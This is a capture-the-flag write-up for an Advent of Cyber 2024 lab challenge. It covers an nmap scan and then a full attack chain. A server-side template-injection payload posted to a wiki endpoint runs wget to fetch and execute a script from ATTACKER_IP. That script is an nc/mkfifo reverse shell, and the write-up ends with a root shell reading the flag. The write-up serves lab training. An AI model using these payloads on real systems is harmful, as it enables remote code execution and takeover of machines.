

# T5: An Avalanche of Web Apps

This is a writeup for Advent of Cyber 2024 Sidequest 5.


Once you have the keycard, booted the machine and unlocked the firewall on port 21337 using the provided password, nmap to discover services on the machine.

```sh
─$ nmap -sV $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-04 20:17 EST
Nmap scan report for npm-registry.bestfestivalcompany.thm (10.10.185.28)
Host is up (0.12s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
53/tcp   open  domain  dnsmasq 2.90
80/tcp   open  http    Apache httpd 2.4.58
3000/tcp open  http    Node.js Express framework
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.09 seconds
```

```
└─$ cat script.js        
const formData = new URLSearchParams({
  title: "My New Wiki",
  markdownContent: `{{ ''.constructor.constructor('require("child_process").exec("wget ATTACKER_IP$/c -O /tmp/c && chmod 777 /tmp/c && /tmp/c")')() }}`
});

fetch('/wiki', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded',
  },
  body: formData.toString(),
})
```

```
└─$ cat c   
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP$ 4444 >/tmp/f
```

<figure><figcaption></figcaption></figure>

```
└─$ nc -nlvp 4444                                                                                                       
```

```
/ # whoami
root
/ # cd /
/ # ls
app
bin
data
dev
etc
flag-a3877c28657833933e47fcdd9d14903f.txt
home
...
/ # cat flag-a3877c28657833933e47fcdd9d14903f.txt
THM{REDACTED}

```

